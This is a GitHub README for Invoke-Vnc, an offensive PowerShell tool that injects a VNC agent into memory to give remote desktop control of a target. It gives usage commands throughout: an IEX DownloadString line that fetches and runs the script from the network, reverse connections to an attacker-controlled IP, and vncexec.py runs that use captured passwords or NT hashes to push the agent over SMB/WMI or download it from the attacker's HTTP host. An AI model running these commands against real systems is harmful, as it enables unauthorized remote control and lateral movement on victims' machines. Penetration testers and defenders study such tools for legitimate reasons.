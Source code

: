 Invoke-Vnc - a powershell VNC injector
===================

Invoke-Vnc executes a VNC agent in-memory and initiates a reverse connection, or binds to a specified port. Password authentication is supported.

Usage example
------------------

Invoke locally:
```powershell
Import-Module Invoke-Vnc.ps1
#Reverse VNC connection
Invoke-Vnc -ConType reverse -IpAddress <backconnect_ip> -Port 5500 -Password P@ssw0rd
#Bind VNC connection
Invoke-Vnc -ConType bind -Port 5900
```

Invoke over net:
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/artkond/Invoke-Vnc/master/Invoke-Vnc.ps1')
#Reverse VNC connection
Invoke-Vnc -ConType reverse -IpAddress <backconnect_ip> -Port 5500 -Password P@ssw0rd
#Bind VNC connection
Invoke-Vnc -ConType bind -Port 5900
```

Launch VNC listener to catch reverse VNC connection:
```bash
vncviewer –listen <port>
```

Execute agent remotely via WMI
--------------------------
If you have authenticated access (password, nt hash or kerberos ticket) to the machine, you can use the vncexec.py script to execute the VNC agent.

Upload an encoded ps1 script as a bat file via SMB and execute the agent to bind a VNC port on target:
```
vncexec.py  -invoke-vnc-path Invoke-Vnc.ps1 -contype bind -vncport 5900 -vncpass password  -method upload user:pass@target_ip
```
Download the script via HTTP from the attacker's host and execute the agent to get a reverse VNC connection:
```
vncexec.py -bc-ip <attacker's_host> -httpport 8080 -invoke-vnc-path Invoke-Vnc.ps1 -contype reverse -vncport 5500 -vncpass P@ssw0rd -method download user:pass@target_ip
```

Script depends on a recent build of impacket library. Get it at https://github.com/CoreSecurity/impacket
```bash
git clone https://github.com/CoreSecurity/impacket
cd impacket
sudo python setup.py install
```

Build notes
----------
Project is built using Visual Studio 2013. To successfully build the solution you need python to be available at C:\Python27\python.exe. Both x86 and x64 configurations must be built in order to update Invoke-Vnc.ps1 script.

Author
------

Artem Kondratenko https://twitter.com/artkond


Credit
------
Repo is based on the following projects:

- https://github.com/rapid7/metasploit-framework/tree/master/external/source/vncdll
- https://github.com/CoreSecurity/impacket/tree/master/examples
- https://github.com/stephenfewer/ReflectiveDLLInjection
- https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
